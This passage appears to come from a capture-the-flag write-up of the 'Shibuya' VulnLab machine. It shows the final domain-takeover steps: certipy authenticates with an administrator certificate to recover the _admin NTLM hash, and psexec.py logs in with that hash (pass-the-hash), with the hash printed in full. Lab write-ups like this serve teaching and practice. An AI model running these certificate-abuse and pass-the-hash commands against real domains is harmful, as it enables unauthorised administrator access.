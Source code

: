 Lets now request the certificate for the _admin which is the default administrator account on this box.

```bash
proxychains certipy auth -pfx '_admin.pfx' -dc-ip 10.129.234.42 -ns 10.129.234.42  -domain shibuya.vl
```

![image.png](/assets/images/Shibuya_VL/image%2019.png)

Got the hash of _admin account.

Lets now authenticate it.

![image.png](/assets/images/Shibuya_VL/image%2020.png)

Lets now login using psexec.py

```bash
psexec.py shibuya.vl/'_admin'@awsjpdc0522.shibuya.vl -hashes :bab5b2a004eabb11d865f31912b6b430
```
